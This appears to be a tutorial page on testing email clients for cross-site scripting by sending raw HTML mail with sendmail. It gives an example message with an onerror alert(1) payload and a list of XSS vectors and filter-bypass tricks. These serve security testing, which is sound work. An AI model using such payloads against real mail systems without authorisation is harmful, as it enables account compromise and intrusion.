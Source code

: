 
## 🛠️ Solution: Use Raw Email Injection with `sendmail`

To test *real* XSS vectors, you need to **send raw, unfiltered email content.**

### ✅ Recommended Method: `sendmail` (UNIX-based tool)

#### Step-by-step:

1. Write a raw email in a text file (`email.txt`).
2. Send it using:

   ```bash
   sendmail -t test@example.org < email.txt
   ```

### ✉️ Example Email (`email.txt`)

```txt
MIME-Version: 1.0
From: test@example.org
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: 7bit
Subject: XSS test

<html>
  <body>
    <img src="x" onerror="alert(1)">
  </body>
</html>
```

### 🧠 What’s Happening?

* `Content-Type: text/html`: Ensures that the HTML is rendered, not treated as plain text.
* `<img src="x" onerror="alert(1)">`: Classic XSS vector. The broken image triggers `onerror`.

---

## 🧪 Expand Your Payload Arsenal

Test different payload types:

### ✅ Test:

* Inline `<script>alert(1)</script>`
* Image-based XSS (`<img onerror>`, `<svg onload>`)
* CSS-based (e.g. `style="xss:expression(alert(1))"`)
* Bypass attempts:

  * `<scr<script>ipt>alert(1)</scr</script>ipt>`
  * Obfuscated protocols: `ja&#x09;vascript:alert(1)`
  * Nested tags or malformed HTML
* Charset tricks (`charset=iso-8859-1`, `utf-7`, etc.)
* Alternate Content-Types (e.g., `multipart/mixed`, `text/plain`)

---